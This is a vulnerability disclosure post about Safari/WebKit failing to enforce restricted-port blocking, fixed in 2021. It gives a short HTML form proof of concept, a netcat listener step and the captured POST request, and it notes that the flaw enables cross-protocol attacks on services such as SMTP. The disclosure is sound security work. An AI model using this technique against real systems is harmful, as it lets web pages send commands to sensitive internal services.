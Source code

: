 ```yaml
---
layout: post
slug: "0007"
vendor: "Apple"
status: "fixed"
reported: "2021-03-13"
title: "Bypassing restricted port protection in WebKit"
---
```


**Summary:**

Safari [restricted port blocking](https://fetch.spec.whatwg.org/#port-blocking) is not enforced properly. When requesting a page on a restricted port, only rendering is blocked, but the initial request gets sent to the restricted port.

**Steps to reproduce:**

1. Create an HTML file with this POC:

```
<form action="http://127.0.0.1:6000" method="POST" enctype="multipart/form-data">
    <label for="data">post data:</label>
    <input type="text" id="data" name="data">
</form>
```

{:start="2"}
2. Listen on port 6000 (a restricted port) with netcat: `$ nc -l 127.0.0.1 6000`
3. Open the HTML file created in `Step 1.` in Safari
4. Enter any value into the `post data:` form field, and press enter
5. See that Safari shows an error with the message:

```
Safari can't open the page "http://127.0.0.1:6000/". The error is: "Not allowed to use
restricted network port" (WebKitErrorDomain:103)
```

{:start="6"}
6. In the terminal running netcat, see that the request still got sent:

```
$ nc -l 127.0.0.1 6000
POST / HTTP/1.1
Host: 127.0.0.1:6000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFFmUrfH05DvsT29s
Origin: null
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15
Content-Length: 153
Accept-Language: en-gb
Accept-Encoding: gzip, deflate

------WebKitFormBoundaryFFmUrfH05DvsT29s
Content-Disposition: form-data; name="data"

123_test_post_data
------WebKitFormBoundaryFFmUrfH05DvsT29s--
```

**Impact:**

This could be used to bypass the restricted port protection, and send malicious commands to non-HTTP services running on these sensitive ports, like mail servers.
This blog post demonstrates the impact, exploiting internal SMTP servers: [https://cxsecurity.com/issue/WLB-2010030240](https://cxsecurity.com/issue/WLB-2010030240)

**[Disclosure Warning]:**

**This issue is subject to a 90 day disclosure deadline.** On `2021-06-11` this issue will be publicly disclosed. If you would like to redact additional information or if for some reason the issue can't be fixed until the deadline, let me know.

*This issue was fixed in [iOS/iPadOS 14.6](https://support.apple.com/en-us/HT212528), [macOS Big Sur 11.4](https://support.apple.com/en-us/HT212529), [Safari 14.1.1](https://support.apple.com/en-us/HT212534), [watchOS 7.5](https://support.apple.com/en-us/HT212533) and in [tvOS 14.6](https://support.apple.com/en-us/HT212532).*

*Suspected WebKit commit: [b5ad31c](https://github.com/WebKit/WebKit/commit/b5ad31c21d9194b9246a5cc9f649fccbafd028f2)*
